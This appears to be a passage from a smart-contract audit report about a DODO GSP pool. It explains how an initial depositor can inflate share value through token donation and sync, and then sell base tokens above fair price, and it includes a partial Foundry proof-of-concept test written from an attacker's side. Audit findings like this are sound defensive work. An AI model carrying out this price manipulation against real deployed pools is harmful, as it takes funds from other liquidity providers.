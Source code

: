 The initial depositor can inflate the value of a share without any value loss by donating token amounts and calling the sync function. This also doesn't change the Target values. 
```solidity
    function _sync() internal {

        uint256 baseBalance = _BASE_TOKEN_.balanceOf(address(this)) - uint256(_MT_FEE_BASE_);
        uint256 quoteBalance = _QUOTE_TOKEN_.balanceOf(address(this)) - uint256(_MT_FEE_QUOTE_);
    
        .....
    
        if (baseBalance != _BASE_RESERVE_) {
            _BASE_RESERVE_ = uint112(baseBalance);
        }
        if (quoteBalance != _QUOTE_RESERVE_) {
            _QUOTE_RESERVE_ = uint112(quoteBalance);
        }
        
        .....
    }
```

Following the second user's deposit (in correct ratio ie. fair price ratio), the initial depositor can perform the following steps to sell base token at a higher price(vice versa for quote token):

1. Sell 0 amount of quote token. This will make r_state == above_one
2. Next sell base. For this sell, the quadratic target calculation of base target will use (quote reserve - quote target == quote reserve) as delta. This will cause the ratio of (base target / base reserve) to be bigger than actual.

Amount earnable couldn't be quantified due to time constraint but increases with k. With k == 0.0005 (used in test file), sell price in obtained was 1.0005 (fair price == 1) and with k == 0.05 it increased to 1.05

### POC Code
Add the following test to test/GPSTrader.t.sol after importing DODOMath and run `forge test --mt testHash_reserveTargetRatioIncrease`
```solidity
    import {DODOMath} from "../contracts/lib/DODOMath.sol";

    function testHash_reserveTargetRatioIncrease() public {
        GSP gspTest = new GSP();
        gspTest.init(
            MAINTAINER,
            address(mockBaseToken),
            address(mockQuoteToken),
            0,
            0,
            1e18,
            500000000000000,
            false
        );
        
        address attacker = address(123);
        mockBaseToken.mint(attacker,type(uint).max);
        mockQuoteToken.mint(attacker,type(uint).max);

        vm.startPrank(attacker);
        mockBaseToken.transfer(address(gspTest), 2000);
        mockQuoteToken.transfer(address(gspTest), 2000);

        // mint low amount of shares
        gspTest.buyShares(attacker);
        mockBaseToken.transfer(address(gspTest), 1e18 - 2000);
        mockQuoteToken.transfer(address(gspTest), 1e18 -2000);
        gspTest.sync();
```
